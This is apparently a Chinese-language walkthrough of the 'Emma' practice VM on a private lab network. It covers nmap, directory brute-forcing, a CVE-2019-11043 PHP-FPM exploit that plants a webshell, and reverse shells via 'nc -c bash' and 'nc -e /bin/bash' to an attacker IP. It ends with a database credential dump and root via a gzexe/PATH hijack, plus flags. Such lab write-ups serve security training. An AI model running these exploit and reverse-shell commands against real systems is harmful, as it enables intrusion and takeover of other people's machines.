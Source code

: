 # Emma

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-04

✔️ MD5 // 43b7626e2d43405be800ca0c0abb30b6

☠ Root // 50

💀 User // 55

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:4c:af:92:cc:bb:99:59:d7:2f:1b:99:fb:f1:7c:f0 (RSA)
|   256 ba:0d:85:69:43:86:c1:91:7c:db:2a:1e:34:ab:68:1e (ECDSA)
|_  256 a1:ac:2c:ce:f4:07:da:96:12:74:d1:54:9e:f7:09:04 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## web 服务

尝试直接目录爆破

```plaintext
[10:46:34] 200 -    0B  - /index.php
[10:46:34] 200 -    0B  - /index.php/login/
[10:46:43] 200 -   58KB - /phpinfo.php
[10:46:47] 200 -   15B  - /robots.txt
```

访问 `/robots.txt` 得到

```plaintext
itwasonlyakiss
```

访问 `/phpinfo.php`，得到以下版本信息

```plaintext
PHP Version 7.1.33dev
```

根据版本信息进行查找，可以定位到这个漏洞

```plaintext
CVE-2019-11043
```

### 漏洞利用

采用 [neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ docker run --rm ypereirareis/cve-2019-11043 http://192.168.56.113/index.php
2024/02/18 05:51:03 Base status code is 200
2024/02/18 05:51:05 Status code 502 for qsl=1765, adding as a candidate
2024/02/18 05:51:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/02/18 05:52:15 Attack params found: --qsl 1755 --pisos 22 --skip-detect
2024/02/18 05:52:15 Trying to set "session.auto_start=0"...
2024/02/18 05:52:18 Detect() returned attack params: --qsl 1755 --pisos 22 --skip-detect <-- REMEMBER THIS
2024/02/18 05:52:18 Performing attack using php.ini settings...
2024/02/18 05:52:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/02/18 05:52:20 Trying to cleanup /tmp/a...
2024/02/18 05:52:20 Done!
```

可以看到 webshell 被成功植入，尝试利用

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ curl http://192.168.56.113/index.php?a=/bin/bash+-c+whoami
www-data
```

## User - www-data

```shell
# http://192.168.56.113/index.php?a=/bin/sh+-c+%27id;nc%20-c%20bash%20192.168.56.102%209999%27&\
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[13:55:11] Welcome to pwncat 🐈!
[13:57:01] received connection from 192.168.56.113:49336
[13:57:01] 192.168.56.113:49336: registered new host w/ db
(local) pwncat$ back
(remote) www-data@emma:/var/www/html$ whoami
www-data
```

### 数据库访问

采用 web 服务 `/robots.txt` 返回的 `itwasonlyakiss` 作为密码

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+

MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+

MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f4dcc3b5aa765d61d8327deb882cf80 |
+----+------+----------------------------------+
```

得到

```plaintext
emma:5f4dcc3b5aa765d61d8327deb882cf80
```

## User - emma

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs emma@192.168.56.113
[14:54:09] Welcome to pwncat 🐈!
Password: ********************************
[14:54:12] 192.168.56.113:22: normalizing shell path
           192.168.56.113:22: registered new host w/ db
(local) pwncat$ back
(remote) emma@emma:/home/emma$ whoami
emma
```

### flag - user

```shell
(remote) emma@emma:/home/emma$ cat user.txt
youdontknowme
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
```

同时用户目录下存在 suid 程序

```plaintext title="ls -lah"
(remote) emma@emma:/home/emma$ ls -lah
total 68K
drwxr-xr-x 4 emma emma 4.0K Feb 18 03:48 .
drwxr-xr-x 3 root root 4.0K Feb  4  2021 ..
-rw------- 1 emma emma    5 Feb 18 03:48 .bash_history
-rw-r--r-- 1 emma emma  220 Feb  4  2021 .bash_logout
-rw-r--r-- 1 emma emma 3.5K Feb  4  2021 .bashrc
-rwx------ 1 emma emma 1.9K Feb  4  2021 flag.sh
drwx------ 3 emma emma 4.0K Feb 18 01:54 .gnupg
drwxr-xr-x 3 emma emma 4.0K Feb  4  2021 .local
-rw-r--r-- 1 emma emma  807 Feb  4  2021 .profile
-rw------- 1 emma emma   14 Feb  4  2021 user.txt
-rwsr-s--- 1 root emma  17K Feb  4  2021 who
-rw-r--r-- 1 emma emma  185 Feb  4  2021 who.c
-rw------- 1 emma emma   50 Feb  4  2021 .Xauthority
```

查看`who`程序的源码

```c title="who.c"
#include <stdio.h>
#include <stdlib.h>
void main(){
    setuid(0);
    setgid(0);
    printf("Im \n");
    system("/bin/id");
    setuid(1000);
    setgid(1000);
    printf("But now Im \n");
    system("/bin/id");
}
```

由于 `gzexe` 压缩程序后，再运行被压缩的程序，就会调用一次 `unzip`，所以可以先对 `id` 进行压缩操作，然后将恶意载荷植入 `unzip` 中，就可以实现提权

## User - root

```shell
emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/bash 192.168.56.102 7777" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
```

### flag - root

```plaintext
itsmeimshe
```
